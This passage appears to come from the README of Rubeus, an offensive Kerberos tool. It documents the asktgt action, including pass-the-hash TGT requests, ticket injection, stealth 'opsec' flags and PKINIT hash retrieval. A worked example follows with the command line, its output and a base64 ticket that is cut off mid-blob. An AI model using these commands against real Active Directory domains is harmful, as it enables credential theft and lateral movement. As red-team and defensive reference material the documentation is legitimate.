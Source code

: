 Note that no elevated privileges are needed on the host to request TGTs or apply them to the **current** logon session, just the correct hash for the target user. Also, another opsec note: only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the `/ptt` option. A workaround is to use the `/createnetonly:C:\X.exe` parameter (which hides the process by default unless the `/show` flag is specified), or request the ticket and apply it to another logon session with `ptt /luid:0xA..`.

By default, several differences exists between AS-REQ's generated by Rubeus and genuine AS-REQ's. To form AS-REQ's more inline with genuine requests, the `/opsec` flag can be used, this will send an initial AS-REQ without pre-authentication first, if this succeeds, the resulting AS-REP is decrypted and TGT return, otherwise an AS-REQ with pre-authentication is then sent. As this flag is intended to make Rubeus traffic more stealthy, it cannot by default be used with any encryption type other than `aes256` and will just throw a warning and exit if another encryption type is used. To allow for other encryption types to be used with the `/opsec` changes, the `/force` flag exists.

PKINIT authentication is supported with the `/certificate:X` argument. When the private key within the PFX file is password protected, this password can be passed with the `/password:X` argument. When using PKINIT authentication the `/getcredentials` flag can be used to automatically request a U2U service ticket and retrieve the account NT hash.

Requesting a TGT without a PAC can be done using the `/nopac` switch.

Using a KDC proxy ([MS-KKDCP](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-kkdcp/5bcebb8d-b747-4ee5-9453-428aec1c5c38)) to make the request is possible using the `/proxyurl:URL` argument. The full URL for the KDC proxy is required, eg. https://kdcproxy.exmaple.com/kdcproxy

The `/nopreauth` flag can be used to send an AS-REQ without pre-authentication. The `/service:SPN` argument can be used to request service tickets using AS-REQ's directly, it will take an SPN or a username.

Requesting a ticket via RC4 hash for **dfm.a@testlab.local**, applying it to the current logon session:

    C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.4.1

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFmjCCBZagAwIBBaEDAgEWooIErzCCBKthggSnMIIEo6ADAgEFoQ8bDVRFU1RMQUIuTE9DQUyiIjAg
        oAMCAQKhGTAXGwZrcmJ0Z3QbDXRlc3RsYWIubG9jYWyjggRlMIIEYaADAgESoQMCAQKiggRTBIIETwrl
        zIpKjTT11eteJCn+0rtlKwtTW/8XvoWXy61rOCrOIo16YPiMe4usXoJaOqsvCydMgd6955hT+IoFMyGG
        VfVxetoM1Oa5aPA2sfzJeogn4RpFBoY5vjjKBzPaTJptPRX7Wjg0o1FTszJET4mhQyLKxQMgprKcc2mz
        yniQzGPI19O95aSoPpNar+4lKlyBsL4QjSEeBdZQ2/Ab1JVu3eh1xCsWkKUUlabbzeZwo8SG0QkZ0DKk
        qOD8hx5wbQ+w8emcLvHMIrmg1xO2OPngK76C3daeiS59UVADSz/n3H7Tfuk+EXSdZ8DC4/c8KIZvHsC6
        cO/ymVFxyuRJLg7VThl8keZmbWzYei6xAwH7mUAUEA1lk0pEHx12nAHcKILsbS3F9wAcHMNEGe/Xa3UK
        INJ0q+JvdJpCPo/wgyu7wjKgsdpgUV0siVfpGaxG7yh6s3U2tAlBWnWdGF/Gy/FkOk/hJxhTTHcHa5XE
        LTaXY9cnraee+llJqmOnHfjPa5+XNTnVtBZjT0SPRnSXfdPG5BgiXYlCjr5ykhF8MdVE1Se+WtEZJuPj
        lYrCtWo2oEjBbYMb3YGTcWh5+oWNY1QdxSpyFc8IDQOTOCnQ+nsQf78phU7svTBm0b5AqqPD/olz1RYm
        f4qR+90TcASaQGwHUQbpFnLb2U9BHwNS+SlRwafFT5qlTmXaqoQMMjknospm0+v0U8hd8KbZ4jwK2hM+
        vE74bOiAMdjTf5YLDorRyuFUoa7oIaJZTXxsLmqZsBCsUnH5etXTb9vHj7Dl27wyP9snRHIWuE8Rdo9Z
        zAJK6PESaBcUqhKqkjWLUKDuT2+SCduPVF6+3QJB0xLJrwXKp/MiV418H/pHRoy6JkKKw2m1bw45P8Az
        l54g75WJqEiAzj/+I64TUfbEFJtd9OHujAKzjMMiKRQKwTKR1Jfb6gTrv6K0GCTJ15W84DeWc47jTutE
        HbWxuKib3niTTM5YcHZcN6h/V8Zef8r4fdhY20xGCwqlT9X5md96+647bRq/AZDtiAEaVAH5f3QTQen8